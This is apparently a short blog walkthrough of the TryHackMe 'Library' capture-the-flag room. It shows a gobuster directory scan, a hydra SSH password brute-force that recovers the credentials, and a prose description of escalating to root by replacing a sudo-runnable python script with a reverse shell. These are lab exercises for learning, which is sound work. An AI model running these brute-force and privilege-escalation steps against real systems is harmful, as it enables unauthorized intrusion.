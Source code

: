 ```yaml
---

title: Walkthrough - Library
published: true
---
```


Tags: Security.
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy
URL: [https://tryhackme.com/room/bsidesgtlibrary](https://tryhackme.com/room/bsidesgtlibrary)

* * *

## Notes

```
Discovered open port 22/tcp on 10.10.33.54
Discovered open port 80/tcp on 10.10.33.54
```

- `gobuster dir -u http://library.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -x txt --no-error`

```
/images               (Status: 301) [Size: 311] [--> http://library.thm/images/]
/robots.txt           (Status: 200) [Size: 33]     
```

- inside robots.txt

```
User-agent: rockyou 
Disallow: /
```

Nothing useful here.

We can use the username meliodas on the homepage to try to brute ssh.

- `hydra -l meliodas -P /usr/share/seclists/Passwords/rockyou.txt 10.10.33.54 ssh`

```
[22][ssh] host: 10.10.33.54   login: meliodas   password: iloveyou1
```

checking sudo -l we can see the user can run the python script as sudo so deleting the file and remaking a new one with a reverse shell lets us connect and collect our flags.

* * * 

## What is the content of root.txt?

![0xskar](/assets/library01.png)

* * * 


